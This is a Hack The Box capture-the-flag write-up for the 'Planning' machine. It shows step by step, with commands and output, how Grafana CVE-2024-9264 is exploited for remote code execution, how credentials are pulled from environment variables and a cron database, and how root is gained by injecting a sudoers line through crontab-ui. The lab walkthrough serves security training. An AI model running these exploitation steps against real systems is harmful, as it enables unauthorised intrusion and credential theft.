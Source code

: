 ```yaml
---
clayout: ctf
title: Planning
date: 2025-07-26
image: /ctf/hack-the-box/machines/planning/info-card.png
type: Hack The Box

ctf:
    - name: Planning
      link: https://app.hackthebox.com/machines/660
      thumbnail: /ctf/hack-the-box/machines/planning/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/660
          thumbnail: /ctf/hack-the-box/machines/planning/pwned.png
---
```


## Machine Information

As is common in real life pentests, you will start the Planning box with credentials for the following account:

- Username: `admin`
- Password: `0D5oT70Fq13EvB5r`

## Enumeration

### Nmap Scan

```bash
nmap -sC -sV -v -A -oN nmap.txt 10.10.11.68
```

**Results:**

```bash
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62fff6d4578805adf4d3de5b9bf850f1 (ECDSA)
|_  256 4cce7d5cfb2da09e9fbdf55c5e61508a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
```

The scan revealed two open ports:

- **Port 22 (SSH):** OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
- **Port 80 (HTTP):** nginx 1.24.0 (Ubuntu)

## Web Application Enumeration

### Hostname Resolution

The domain `planning.htb` did not resolve automatically. To fix this, we added an entry to `/etc/hosts`:

```bash
echo "10.10.11.68 planning.htb" >> /etc/hosts
```

### Manual Inspection

Navigating to `http://planning.htb` revealed a web application named Edukate.

![Home page of the Edukate website](/ctf/hack-the-box/machines/planning/home-page.png){style="border-radius: 10px;"}

No obvious functionality or vulnerabilities were observed through manual inspection.

### Virtual Host Enumeration

Using `gobuster vhost` we can enumerate the subdomains:

```bash
gobuster vhost \
  -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
  -u "http://planning.htb" \
  -o gobuster-vhost.txt \
  -t 20 \
  --append-domain
```

**Results:**

```bash
Found: grafana.planning.htb Status: 302 [Size: 29] [--> /login]
```

Adding the subdomain to `/etc/hosts`:

```bash
echo "10.10.11.68 grafana.planning.htb" >> /etc/hosts
```

### Grafana – Authenticated Access and Exploitation

Accessing `http://grafana.planning.htb` presented a Grafana login portal:

![Grafana login page](/ctf/hack-the-box/machines/planning/grafana-login.png)

Using the initial credentials (`admin:0D5oT70Fq13EvB5r`), we successfully logged in:

![Grafana dashboard](/ctf/hack-the-box/machines/planning/grafana-dashboard.png)

> [!NOTE]
> Grafana is an open-source platform for monitoring and observability.

By inspecting the UI (via the help menu), the version was identified as **Grafana v11.0.0 (83b9528bce)**.

### Exploiting CVE-2024-9264 (RCE via SQL Injection)

Grafana v11.0.0 is affected by [CVE-2024-9264](https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/), a critical vulnerability allowing remote command execution and local file inclusion.

Using the public [PoC](https://github.com/nollium/CVE-2024-9264), we confirmed remote code execution:

```bash
python3 CVE-2024-9264.py \
  -u admin \
  -p 0D5oT70Fq13EvB5r \
  -c "id" \
  http://grafana.planning.htb
```

**Output:**

```bash
uid=0(root) gid=0(root) groups=0(root)
```

### Credential Discovery via Environment Variables

By executing `env`, we extracted Grafana's administrative credentials:

```bash
python3 CVE-2024-9264.py \
  -u admin \
  -p 0D5oT70Fq13EvB5r \
  -c "env" \
  http://grafana.planning.htb
```

**Output:**

```bash
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
```

### Shell Access via SSH

Using the credentials discovered via RCE, we successfully logged in via SSH:

```bash
ssh enzo@planning.htb
# Password: RioTecRANDEntANT!
```

**Output:**

```bash
enzo@planning:~$ id
uid=1000(enzo) gid=1000(enzo) groups=1000(enzo)
```

The user flag is in the `/home/enzo/user.txt` file.

## Privilege Escalation

### Linpeas

Post-exploitation enumeration using **LinPEAS** highlighted the presence of a global npm module:

- **Module**: crontab-ui (Dockerfile exposes the application on port 8000)
- We found a database file at `/opt/crontabs/crontab.db`.

```bash
cat /opt/crontabs/crontab.db
```

**Output:**

```json
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

This indicates a **cron job running** as root every minute, invoking a script located in `/root/scripts/`. Another job archives Grafana backups and uses the password `P4ssw0rdS0pRi0T3c`, embedded in a zip command.

### Exploiting Local Web Interface

The `Dockerfile` exposes the application on port `8000`. Looking at the `netstat` output, we can see that the port is listening locally:

```bash
(netstat -punta || ss --ntpu)

tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
```

### Port Forwarding via SSH

To access the service, we can use SSH port forwarding:

```bash
ssh -L 1337:localhost:8000 enzo@planning.htb
```

### Accessing crontab-ui

Navigating to `http://localhost:1337` displayed the crontab-ui login page.

- Username: `admin`
- Password: `P4ssw0rdS0pRi0T3c`

Upon login, we gained access to the web interface:

![Cronjob dashboard](/ctf/hack-the-box/machines/planning/cronjob-dashboard.png)

### Privilege Escalation via Cron Injection

Through the Cronjob UI, we can create a new cronjob that will execute a command who will change the authorisation of the `enzo` user.

![Cronjob creation](/ctf/hack-the-box/machines/planning/cronjob-creation.png)

```bash
echo "enzo ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

After running the cron job, we checked sudo privileges:

```bash
sudo -l
```

**Results:**

```bash
User enzo may run the following commands on planning:
    (ALL : ALL) ALL
```

### Root Shell

With unrestricted sudo access, we can get a root shell:

```bash
su
```

**Output:**

```bash
root@planning:~# id
uid=0(root) gid=0(root) groups=0(root)
```

The root flag is in the `/root/root.txt` file.